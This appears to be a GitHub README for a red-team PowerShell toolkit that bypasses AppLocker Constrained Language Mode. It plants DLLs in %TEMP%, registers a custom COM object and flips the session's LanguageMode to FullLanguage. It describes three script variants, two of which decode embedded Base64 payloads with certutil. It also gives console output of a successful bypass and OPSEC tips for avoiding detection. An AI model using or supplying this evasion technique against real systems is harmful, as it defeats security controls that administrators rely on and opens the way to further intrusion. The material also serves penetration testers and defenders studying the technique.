 

### `Bypass-ConstrainedLanguageMode`

Tries to bypass AppLocker Constrained Language Mode via custom COM object (as documented by @xpn in: https://www.mdsec.co.uk/2018/09/applocker-clm-bypass-via-com/ )
This directory contains three DLLs, namely: 
- `ClmDisableDll86.dll`, 
- `ClmDisableDll64.dll`, 
- `ClmDisableAssembly.dll`. 

They are going to be copied into `%TEMP%` directory. Then one of Powershell scripts choosen will create a COM object pointing to `ClmDisableDllYY.dll` library (depending on platform architecture detected). 
This effectively COM will instantiate an `InProcServer32` dll that is a native _.NET4 CLR host_ responsible for loading provided assembly in current AppDomain. The assembly will finally put a `FullLanguage` value into `LanguageMode` property of session data context. This should disable CLM for current Runspace.

Three scripts constitute this bypass, whereas the use of only one is sufficient:
  - `Bypass-CLM.ps1` - the original one, that is inteded to be put side by side with three acompanying files. It does not include any of that DLL files, merely copies them to TEMP, creates a COM object and instantiates a new instance of that COM.
  - `Bypass-CLM2.ps1` - the same as above but with the difference that it embeds all of the three DLL files in form of a Base64 encoded blob. This blob will be then written to TEMP in form of text file, which will get decoded using `certutil -decode` (**OPSEC Warning!**)
  - `Bypass-CLM-Mini.ps1` - the same as above (`Bypass-CLM2.ps1`) but with the difference that the entire script was itself Base64 encoded. It will be decoded using `certutil -decode` (**OPSEC Warning!**) and then proceeds with it's logic.

Successful launch of these script looks as follows:

```
PS >  $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage 
PS > .\Bypass-CLM.ps1
        AppLocker Constrined Language Mode Bypass via COM
        (implementation of: @xpn's technique, as documented in:)
        (https://www.mdsec.co.uk/2018/09/applocker-clm-bypass-via-com/)

        Re-implemented, enhanced by: Mariusz B., mgeeky
        -----

[.] Step 0. Planted DLL files in:
        C:\Users\danj\AppData\Local\Temp\ClmDisableAssembly.dll
        C:\Users\danj\AppData\Local\Temp\ClmDisableDll.dll
[.] Step 1. Creating custom COM object.
[.] Step 2. Invoking it (ClmDisableDll)...
        Powershell runspace Thread ID: 8716
[+] Managed mode assembly. Disabling CLM globally.
        Current thread ID (managed/unmanaged): 8 / 8716
        Passed argument: '(called from native CLR host)'

============
Use below command to disable CLM on Demand (ignore errors):

        PS> New-Object -ComObject ClmDisableDll

============

[+] Finished. CLM status: FullLanguage

PS > New-Object -ComObject ClmDisableDll
PS > $ExecutionContext.SessionState.LanguageMode
FullLanguage 
```

And for the mini version of that script:

```
PS > .\Bypass-CLM-Mini.ps1
Input Length = 308574
Output Length = 115712
CertUtil: -decode command completed successfully.
[+] Managed mode assembly. Disabling CLM globally.
        Current thread ID (managed/unmanaged): 8 / 8716
        Passed argument: '(called from native CLR host)'

[+] Finished. CLM status: FullLanguage
```

Since this script only alters static variable determining CLM mode from within a separated Runspace dedicated to loaded Assembly, we need to instantiate our own COM object within working Powershell environment like so:

```
PS> $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage

PS> New-Object -ComObject ClmDisableDll

PS> $ExecutionContext.SessionState.LanguageMode
FullLanguage
```

Any further commands will be executed in CLM disabled runspace. 

Things to consider for **OPSEC**:
- This script comes with three additional DLL files: `ClmDisable86.dll`, `ClmDisable64.dll`, `ClmDisableAssembly.dll`. They're going to be inserted into `%TEMP%`. 
- Scipts `Bypass-CLM2.ps1` and `Bypass-CLM-Mini.ps1` create text files within `%TEMP%` and use `certutil -decode` to base64 decode them.
- This bypass works only for the current Runspace, therefore it is required to put your commands at the end of these `Bypass-*.ps1` scripts or to instantiate a New-Object within working PowerShell environment to leverage the bypass.

